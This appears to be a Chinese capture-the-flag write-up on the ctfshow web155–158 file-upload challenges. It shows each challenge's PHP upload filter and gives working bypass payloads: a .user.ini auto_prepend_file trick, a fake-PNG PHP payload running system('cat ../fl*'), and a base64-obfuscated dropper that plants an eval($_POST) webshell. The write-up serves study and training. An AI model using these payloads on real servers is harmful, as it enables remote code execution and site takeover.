<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">strrpos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)==<span class="literal">FALSE</span>)&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">3</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件内容不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>); </span><br></pre></td></tr></table></figure>

<p>限制类型，限制大小，限制后缀不能写死为 <code>php</code> 限制文件内容不能出现 <code>php</code> ,然后就没了。</p>
<h1 id="web155"><a href="#web155" class="headerlink" title="web155"></a>web155</h1><h2 id="原始信息-65"><a href="#原始信息-65" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示文本：后端不能单三校验，后端校验要严密</p>
<h2 id="解题-61"><a href="#解题-61" class="headerlink" title="解题"></a>解题</h2><p>和上面情况一样，wp没变化。</p>
<p>下面是upload文件的内容</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span>)&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>); nothing here</span><br></pre></td></tr></table></figure>

<p>限制了文件大小，文件类型，文件文件后缀和内容不能有 <code>php</code> , 细微上的修改为 <code>strrpos(查最后一次出现的位置)</code> 被改写为 <code>stripos(查第一次出现的位置)</code> ,后面怎么转存文件的操作都是不变的。</p>
<h1 id="web156"><a href="#web156" class="headerlink" title="web156"></a>web156</h1><h2 id="原始信息-66"><a href="#原始信息-66" class="headerlink" title="原始信息"></a>原始信息</h2><p>文本提示：后端不能单四校验</p>
<p>然后和上面一样，一个文件上传的窗口。</p>
<h2 id="解题-62"><a href="#解题-62" class="headerlink" title="解题"></a>解题</h2><p>这次限制的稍微严格了一些，还是和前面一样先上传php文件</p>
<p>第一次上传文件的：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>第二次上传文件的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">&lt;?=eval(system(&#x27;cat ../fl*&#x27;))?&gt;</span><br></pre></td></tr></table></figure>


<p>这时候突发奇想，要不给它搞个一句话木马上去？虽然很多东西被锁死了，但可以写免杀啊！或者绕过这个文件夹另外创一个木马。</p>
<h2 id="突发奇想的WP"><a href="#突发奇想的WP" class="headerlink" title="突发奇想的WP"></a>突发奇想的WP</h2><p>第一次上传文件的：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>第二次上传文件的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;ctf.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89?</span><br><span class="line">&lt;?=</span><br><span class="line"><span class="meta prompt_">$</span><span class="language-bash">b=base64_decode(<span class="string">&#x27;Li4veC5waHA=&#x27;</span>);</span></span><br><span class="line"><span class="meta prompt_">$</span><span class="language-bash">a=base64_decode(<span class="string">&#x27;PD9waHAgZXZhbCgkX1BPU1RbImEiXSk7Pz4=&#x27;</span>);</span></span><br><span class="line"><span class="meta prompt_">file_put_contents($</span><span class="language-bash">b,<span class="variable">$a</span>);</span></span><br><span class="line"></span><br><span class="line">?&gt;</span><br></pre></td></tr></table></figure>

<p>其中的两个base分别是文件名和文件内容，也就是木马的内容。具体看下面：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">$ php -r <span class="string">&quot;echo base64_encode(&#x27;../x.php&#x27;);&quot;</span></span><br><span class="line">Li4veC5waHA=</span><br><span class="line">$ php -r <span class="string">&quot;echo base64_encode(&#x27;&lt;?php eval(<span class="subst">$_POST</span>[&quot;</span>a<span class="string">&quot;]);?&gt;&#x27;);&quot;</span></span><br><span class="line">PD9waHAgZXZhbCgkX1BPU1RbImEiXSk7Pz4=</span><br></pre></td></tr></table></figure>

<p>下面的就是直接访问 <code>x.php</code> 进行一句话木马的 <code>getshell</code> 操作啦~</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">POST: a=system(&#x27;ls&#x27;);</span><br><span class="line">return: flag.php images index.php js layui upload upload.php x.php </span><br><span class="line"></span><br><span class="line">POST: a=show_source(&#x27;flag.php&#x27;);</span><br><span class="line">return: 返回flag的内容。</span><br></pre></td></tr></table></figure>

<h2 id="upload文件的内容："><a href="#upload文件的内容：" class="headerlink" title="upload文件的内容："></a>upload文件的内容：</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">        <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>,<span class="string">&quot;[&quot;</span>)===<span class="literal">FALSE</span>)&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">        &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">            <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>); </span><br></pre></td></tr></table></figure>

<p>文件大小，类型，后缀，内容，方括号限制。</p>
<h1 id="web157"><a href="#web157" class="headerlink" title="web157"></a>web157</h1><h2 id="原始信息-67"><a href="#原始信息-67" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示信息：后端不能单五校验</p>
<p>看来只能说越来越严格了。心中只有一个想法：逃逸。</p>
<h2 id="解题-63"><a href="#解题-63" class="headerlink" title="解题"></a>解题</h2><p>解题的方式和上面一样，使用.user.ini的漏洞点即可：</p>
<p>.user.ini</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.user.ini&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">auto_prepend_file=a.png</span><br></pre></td></tr></table></figure>

<p>a.png</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;a.png&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">GIF89a</span><br><span class="line">&lt;?=eval(system(&#x27;cat ../fl*&#x27;))?&gt;</span><br></pre></td></tr></table></figure>

<p>下面是upload文件的内容：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web158"><a href="#web158" class="headerlink" title="web158"></a>web158</h1><h2 id="原始信息-68"><a href="#原始信息-68" class="headerlink" title="原始信息"></a>原始信息</h2><p>提示文本：后端不能单六校验</p>
<h2 id="解题-64"><a href="#解题-64" class="headerlink" title="解题"></a>解题</h2><p>解题的wp和上一题相同，故这里只展示upload文件内容：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$ext_suffix</span>!=<span class="string">&#x27;php&#x27;</span>)&#123;</span><br><span class="line">                <span class="variable">$content</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$content</span>, <span class="string">&quot;php&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">check</span>(<span class="variable">$content</span>))&#123;</span><br><span class="line">                    <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;upload/&quot;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">                </span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/php|\&#123;|\[|\;|log/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


